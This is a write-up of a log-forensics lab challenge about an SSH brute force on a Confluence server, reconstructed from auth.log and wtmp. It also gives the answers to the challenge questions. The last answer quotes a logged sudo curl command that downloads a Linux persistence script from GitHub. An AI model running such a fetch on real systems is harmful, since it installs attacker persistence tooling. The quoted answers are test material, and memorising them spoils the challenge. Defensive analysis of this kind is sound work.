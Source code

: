 # Box Name:
BRUTUS - Easy Sherlock
# Scenario:
&nbsp; &nbsp; "In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution."
# Provided artifacts:
- **Brutus.zip**
  - **Auth.log**
    - _This is a log file that tracks authentication mechanisms. Including User auth, sudo, and ssh._
  - **WTMP.bin**
    - _WTMP(write temp) is a binary file for user logins and out. Similar to UTMP(current logins) and BTMP(bad logins)_
  - **UTMP.py**
    - _Provided python script to translate the binary file into human readable like the last command in linux_
# Initial Analysis:
&nbsp; &nbsp; My initial overview of the files aligned with the overview. There was a large amount of ssh connection attempts coming from 
65.2.161.68. Among the attempts there was a sucessful attempt that connected and disconnected immediately. Later in the Auth.log _65.2.161.68_ reconnected and ran several commands to create persistence. The account cyberjunkie was created and added to sudo groups. The _65.2.161.68_ address disconnected again and reconnected as cyberjunkie run a script. 
- _Prior to viewing the logs I had to check Brutus.zip hash via ```Get-FileHash "${pwd}\Brutus.zip"```, unzipped the file using 7ZIP, and run the py script to create the proper WTMP file_

# Questions:
1. _Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?_
    - When Parsing the Auth file it was very apparent 65.2.161.68 was the the attacker attempting to brute force the system.
```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68 
```
2. _The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?_
    - About half way down the Auth.log the first successfull connection attempt was on ROOT user.
```
Mar  6 06:31:39 ip-172-31-35-28 sshd[2384]: Received disconnect from 65.2.161.68 port 46732:11: Bye Bye [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2384]: Disconnected from invalid user svc_account 65.2.161.68 port 46732 [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```
3. _Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact._
    - This one was rather difficult for the wrong reasosn. From the Auth log we can see the 2nd login was at "06:32:44", however once we reference the WTMP.log we can see the below entry which we have to convert UTC "06:32:45".

Auth.log entry:
```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
```
WTMP.log:
```
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 01:32:45"	"387923"	"65.2.161.68"
```
4. _SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?_
    - This one was pretty simple. The session was 37. As we can see here
```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```
5. _The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?_
    - This was more very obvious behavior that immediately stands out in the Auth.log. Just skimming the log quickly the account _**cyberjunkie**_ can be seen being created by the attacker. 
```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```
6. _What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?_
    - For this question even though the question mentioned persistance we have to ask what did the actor do. Brute Force > Compromise Root > Create a new account > Run scripts. We answered in that thought process. They created a new account for persistence which falls under Persistence([TA0003](https://attack.mitre.org/tactics/TA0003/)) > Create Accout([T1136](https://attack.mitre.org/techniques/T1136/)) > Local Account ([T1136.001](https://attack.mitre.org/techniques/T1136/001/))
7. _What time did the attacker's first SSH session end according to auth.log?_
    - The first session 37 for Root ended at "06:37:24"
```
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```
8. _The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?_
    - The command that was run was also very visable at the end of the log file due to sudo being used!
```
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
